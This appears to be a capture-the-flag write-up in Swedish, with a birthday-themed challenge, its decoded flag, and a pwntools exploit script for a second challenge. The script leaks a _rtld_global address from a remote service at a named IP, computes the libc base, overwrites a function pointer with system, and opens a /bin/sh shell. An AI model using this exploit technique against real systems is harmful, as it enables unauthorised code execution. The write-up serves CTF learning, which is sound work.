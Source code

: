 TODO

```
Grattis på 33 års dagen Calle, du verkar ha dina skills i behåll trots din ålder,
du har löst del 1 av våra challs,
här har du lokes chall: :?ABCDEFGHI;J5KLMNOPQRSTUVWXYZ[\3) $!7&]1/^_`ab>+cde%fghi4jklmn-o".p29qr(,stuvw=*x0y8z{<|#6'}@
och här är nnewrams chall: https://watevr.xyz/zeta.c
```

Flag: "Grattis på 33 års dagen Calle, du verkar ha dina skills i behåll trots din ålder"

## nnewram's Challenge

URL: https://watevr.xyz/zeta.c  

TODO

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

HOST = '83.209.18.82'
PORT = 1337

#HOST = 'localhost'
#PORT = 31337

r = remote(HOST, PORT)
libc = ELF('./libc.remote.so.6')

r.recvuntil('cka: ')
rtld_global_addr = int(r.recvline().strip().decode('ascii'))
log.info('Leak: %#014x', rtld_global_addr)

libc_addr_ptr = rtld_global_addr - 72
# $rip = *(_rtld_global + 3840)
# $rdi = _rtld_global+2312
rtld_offset = (3840 - 2312)//8

r.recvuntil('cka: ')
r.sendline(str(libc_addr_ptr))

r.recvuntil('fel address: ')

libc_ptr = int(r.recvline().decode('ascii').strip())
libc_base = libc_ptr - 1471088

log.info('Inside libc: %#016x', libc_ptr)
log.info('Libc base: %#016x', libc_base)

pause()

r.recvuntil('du vill skriva till: ')
r.sendline(str(rtld_global_addr + 3840))

r.recvuntil('rde: ')
r.sendline(str(libc_base + libc.symbols['system']))

r.recvuntil('r /bin/sh: ')
r.sendline(str(rtld_offset))

r.interactive()
{% endhighlight %}

